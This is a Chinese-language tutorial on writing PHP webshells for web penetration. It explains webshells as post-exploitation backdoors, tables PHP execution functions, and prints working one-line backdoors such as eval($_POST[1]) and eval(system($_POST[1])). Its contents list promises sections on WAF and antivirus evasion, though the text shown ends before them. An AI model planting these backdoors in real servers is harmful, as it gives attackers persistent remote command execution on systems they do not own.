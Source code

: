 #  PHPweb渗透中的webshell编写

<audio src="./music/1.mp3" controls ></audio>
- 👴 wanna love you ！ 
<<[Is This Love (Original Mix)](http://music.163.com/song?id=402073828&userid=262256866)>> 
专辑：Is This Love (Original Mix)
歌手：Vicetone / Bob Marley

- 目录
  - Webshell介绍:
    - [啥是webshell](#啥是webshell)
    - [PHP的命令注入](#PHP的命令注入)
    - [常用函数的区别](#代码执行与加密函数和系统命令执行函数的区别)

  - 常见函数和变形：
    - [木马中的常见传值或绕过函数](#木马中的常见传值或绕过函数)
    - [常见变形](#最常见一句话马的多种变形)
  - Bypass D盾和安全狗分享:
    - [BypassD盾](#BypassD盾)
    - [一键免杀工具推荐](#webshell_venom)
## 啥是webshell

  简单来说，webshell就是一个以网页形式存在的shell，或者叫后门，木马。
  虽然一句话木马为了绕过waf的检测，出现了很多的变形，但是本质是不变的：木马执行了我们发送的命令。

  攻击者使用的恶意脚本，它的用途主要是在攻击后的Web应用程序上建立持久性的后门。webshell本身不能攻击或者利用远程漏洞，所以说它总是攻击 的第二阶段，这个阶段我们经常称为`post-exploitation`(国外渗透测试标准里面的一个阶段)。

## PHP的命令注入

  PHP中可以使用某些[特殊函数](PHP中的特殊函数.md)来执行外部的代码或函数.

  可以理解为，应用PHP语言中一些具有命令执行功能的函数时,将外部输入的代码执行为php可执行代码或系统命令，也就是俗称的 `webshell` 。在服务器不进行权限设置的时候。权限仅仅是 网页启动者的权限Linux 中为apache权限，权限很低，在windows中是，apache启动者的权限。 、

  例如:
  `<?php echo systean('whoami');?>`

> 那么最常见的一句话木马` <?php eval($_POST[1])?> `为什么不直接用 `system()`呢？


## 代码执行与加密函数和系统命令执行函数的区别


|类型|函数|含义|
|---|---|---|
|执行系统命令|system, passthru, shell_exec, exec, popen, proc_open|直接对系统执行命令|
|代码执行与加密|eval, assert, call_user_func,base64_decode, gzinflate, gzuncompress, gzdecode, str_rot13|将代码作为PHP命令执行|

`$_POST[' ']` 接收我们传递的数据，并把接收的数据传递给一句话木马中执行命令的函数，进而执行命令，`system()`是对系统进行命令操作，而`eval()`函数是对PHP网页进行操作。 
所以可以组合为:
```php
<?php 
eval(system($_POST[1]));
```
